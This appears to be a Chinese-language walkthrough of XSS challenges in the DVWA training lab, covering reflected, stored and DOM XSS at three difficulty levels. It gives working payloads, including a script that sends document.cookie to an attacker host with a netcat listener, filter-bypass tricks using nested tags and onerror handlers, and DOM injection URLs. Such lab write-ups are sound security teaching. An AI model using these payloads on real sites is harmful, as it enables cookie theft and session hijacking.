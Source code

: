 # XSS
## XSS(Reflected)

### LOW

```html
#获取Cookie
<script>alert('document.cookie')</script>
#访问攻击者服务器
<iframe src='http://ip/time.jpg'></iframe>
#向攻击者服务器发送cookie
#nc -nvlp 80
<script>new Image().src="http://ip/a.php?output="+document.cookie;</script>
```
### MEDIUM

利用大小写，组合过滤条件绕过

```html
<Script>
<scr<script>ipt>
<body onload=alert('')>
<img src="" onerror="alert(document.cookie)"/>
```
### HIGH

```php
$name=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i','',$_GET['name']);
```

无法使用\<script>但可以使用其他标签

## XSS(Stored)

### LOW

后台源码：

trim(string,charlist)：移除string字符两侧的预定义字符，预定义字符包括\t 、 \n 、\x0B 、\r以及空格，可选参数charlist支持添加额外需要删除的字符

stripslashes(string)：去除掉string字符的反斜杠＼

mysqli_real_escape_string(string,connection)：函数会对字符串string中的特殊符号（\x00，\n，\r，\，‘，“，\x1a）进行转义。

$GLOBALS：引用全局作用域中可用的全部变量。

### MEDIUM

```
htmlspecialchars()
//将标签转为普通字符
```

name为注入点

### HIGH

name为注入点

## XSS(DOM)

### LOW

url注入

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```
### MEDIUM

```
></option></select><img src=1 onerror="alert(document.cookie)"/>
```
### HIGH

服务器对default设置了白名单，攻击代码用#注释不上传到服务器

```
http://192.168.30.131/dvwa/vulnerabilities/xss_d/?default=English #<script>alert(document.cookie)</script>
```


